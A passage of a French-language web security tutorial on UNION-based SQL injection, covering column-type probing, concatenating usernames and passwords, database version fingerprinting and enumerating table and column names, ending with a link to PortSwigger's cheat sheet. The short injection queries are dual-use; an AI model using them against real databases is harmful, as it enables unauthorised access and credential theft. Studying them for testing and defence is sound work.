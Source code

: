 On envoie **UNION 'string',NULL,NULL** (si 3 colonnes), puis **UNION 0,NULL,NULL**, jusqu'à trouver le type de la première colonne et ainsi de suite.

La remarque faite sur Oracle dans la précédente partie est toujours applicable ici.

<h4 id="h4-2-4"> 1 seule colonne </h4>

Si un seul champ string disponible, et qu'on veut afficher plusieurs sorties en même temps (par exemple le username et le password d'un utilisateur), on peut utiliser la fonction **CONCAT** de SQL:
```sql
SELECT CONCAT(username,'/',password) from users
```

<h4 id="h4-2-5"> Versions </h4>

Il peut être interressant de connaitre la version de la base de donnée pour effectuer des attaques ciblées sur la version.
Les requêtes dépendent de la base de donnée :

- *Oracle* : **SELECT banner FROM v$version**
- *Microsoft* : **SELECT @@version**
- *PostgreSQL* : **SELECT version()**
- *MySQL* : **SELECT @@version**

Si besoin **@** = **%40** et **$** = **%24**


<h4 id="h4-2-6"> Avoir le nom des tables </h4>

Pour effectuer nos recherche, il faut avoir le nom des tables et de colonnes, pour cela on peut effectuer, dans un requete **UNION**, les recherches suivantes : 

**Non Oracle**

```sql
SELECT TABLE_NAME FROM information_schema.tables
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'TABLE-NAME-HERE'

```

**Oracle**

```sql
SELECT TABLE_NAME FROM all_tables
SELECT COLUMN_NAME FROM all_tab_columns WHERE TABLE_NAME = 'TABLE-NAME-HERE'
```

{% note %}
Ne pas oublier de rajouter des colonnes **NULL** au cas où il faille plusieurs colonnes avec l'**UNION**
{% endnote %}

<h4 id="h4-3"> CheatSheet </h4>

{% prerequis "Les informations plus spécifiques liés aux serveur SQL sont dans ce document : [lien](https://portswigger.net/web-security/sql-injection/cheat-sheet)" %}

{% endprerequis %}

 

